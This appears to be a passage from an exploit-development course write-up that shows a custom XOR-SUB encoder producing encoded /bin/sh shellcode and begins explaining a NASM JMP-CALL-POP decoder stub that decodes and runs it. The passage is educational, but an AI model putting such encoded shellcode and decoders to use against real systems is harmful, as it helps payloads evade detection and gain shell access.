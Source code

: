 Then we execute the script and get the encrypted shellcode.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/4_Custom_encoder$ ./xor-sub-encoder.py 
XOR - SUB Encoded shellcode: 

\xe1\x9a\x69\xf9\xe1\x10\x84\xc7\xc2\xc3\x84\x84\xd8\xc1\xf8\xe1\x22\x4c\xf9\xe1\x22\x47\xfc\xe1\x22\x4b\xe1\x28\x69\x90\xa4\xae
0xe1,0x9a,0x69,0xf9,0xe1,0x10,0x84,0xc7,0xc2,0xc3,0x84,0x84,0xd8,0xc1,0xf8,0xe1,0x22,0x4c,0xf9,0xe1,0x22,0x47,0xfc,0xe1,0x22,0x4b,0xe1,0x28,0x69,0x90,0xa4,0xae,
Shellcode Length: 32
```

We copy the shellcode in `NASM` format (`0x`) and paste it in the `Assembly` program (`xor-decoder.nasm`) for decryption.

## Decryption

The technique that is used to decrypt and execute the shellcode is called `JMP-CALL-POP`. We basically jump to a procedure that performs a `call` instruction on another procedure and this inctruction also pushes the address of the next instruction to the stack, which is the shellcode address. Then the `decode` procedure is repeated until all the bytes of the shellcode are decrypted and the shellcode can now get executed, meaning "/bin/sh" gets executed. In the following explanation, the program is explained through its flow.

With the following instruction we make a short jump to the `call_decoder` procedure:

```nasm
	jmp short call_decoder	; jump short to call_decoder procedure
```

The `call_decoder` procedure is declared and the first instruction calls the `decoder` procedure and pushes the memory address of the next instruction to the stack, which is the shellcode. Then, the encrypted bytes of the shellcode are initialized inside another procedure called `Shellcode`. It's important to note that we add another byte to the encrypted shellcode from the `Python` script because even when we don't know the length of the shellcode, it will be calculated dynamically. This happens because the last byte that we add is the same as the `XOR` key and when the operation happens it will result to a nullbyte. That's where the shellcode stops. In our case the value `1` is subtracted from each byte and in order to retrieve the initial value, `1` has to be added to the byte. So, the `XOR` key is `0xaa` and in `Shellcode` we put `0xa9`.

```nasm
call_decoder:

        call decoder
        Shellcode: db 0xe1,0x9a,0x69,0xf9,0xe1,0x10,0x84,0xc7,0xc2,0xc3,0x84,0x84,0xd8,0xc1,0xf8,0xe1,0x22,0x4c,0xf9,0xe1,0x22,0x47,0xfc,0xe1,0x22,0x4b,0xe1,0x28,0x69,0x90,0xa4,0xae,0xa9
```

Then we go to the `decoder` procedure, where the memory address of shellcode is saved at `RSI` register.

```nasm
decoder:
        pop rsi                 ; pop memory address pointing at shellcode from the stack
```
